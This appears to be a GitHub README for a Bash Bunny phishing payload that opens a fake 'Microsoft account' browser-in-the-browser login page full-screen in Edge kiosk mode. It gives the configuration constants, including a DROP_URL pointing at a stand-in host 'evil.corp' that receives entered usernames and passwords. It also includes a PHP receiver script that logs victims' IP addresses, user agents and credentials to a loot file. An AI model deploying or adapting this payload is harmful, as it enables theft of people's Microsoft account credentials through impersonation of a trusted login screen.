


# "Microsoft Windows" Browser in the Browser (BitB)

- Title:         "Microsoft Windows" Browser in the Browser (BitB)
- Author:        TW-D
- Version:       1.0
- Target:        Microsoft Windows
- Category:      Phishing

## Description

1) Hide "PowerShell" window.
2) Change "monitor-timeout (AC and DC)" at NEVER with "powercfg" utility.
3) Change "standby-timeout (AC and DC)" at NEVER with "powercfg" utility.
4) Copies and hides the phishing folder in the current user's directory.
5) Full screen opening of the phishing HTML page using "Microsoft Edge" in kiosk mode.
6) The username/password will be sent by HTTP POST to the URL specified in the "DROP_URL" constant.

## Configuration

From "payload.txt" change the values of the following constants :
```bash

######## INITIALIZATION ########

readonly BB_LABEL="BashBunny"

# Choose "dark" or "light"
#
readonly BITB_THEME="dark"

# Title of the window
#
readonly BITB_TITLE="Outlook - free personal email and calendar from Microsoft"

# URL in the address bar
#
readonly BITB_URL="https://login.live.com/login.srf?wa=wsignin1.0&rver=7.0.6737.0&wp=MBI_SSL&wreply=https%253a%252f%252foutlook.live.com%252fowa%252f"

# Content of the navigation window
#
readonly BITB_TEMPLATE="microsoft-account.html"

# Destination of the form data
#
readonly DROP_URL="http://evil.corp:8080/drop.php?ZXZpbC5jb3Jw.png"


```

Example of code for the data receiver :
```php
<?php

if (
    $_SERVER['REQUEST_METHOD'] === 'POST'
) {

    $remote_addr = (string) $_SERVER['REMOTE_ADDR'];
    $user_agent = (string) $_SERVER['HTTP_USER_AGENT'];
    $username_password = (string) implode(',', $_POST);

    /*
        touch ./aGFrNQ_loot.log
        chown www-data:www-data ./aGFrNQ_loot.log
    */
    $loot = fopen('aGFrNQ_loot.log', 'a');
    fwrite($loot, "##\n");
    fwrite($loot, $remote_addr . "\n");
    fwrite($loot, $user_agent . "\n");
    fwrite($loot, $username_password . "\n");
    fwrite($loot, "##\n");
    fclose($loot);

}

http_response_code(302);
header('Location: https://hak5.org/');
exit;

?>
```

## Screenshots

>
> Dark Theme
>



>
> Light Theme
>


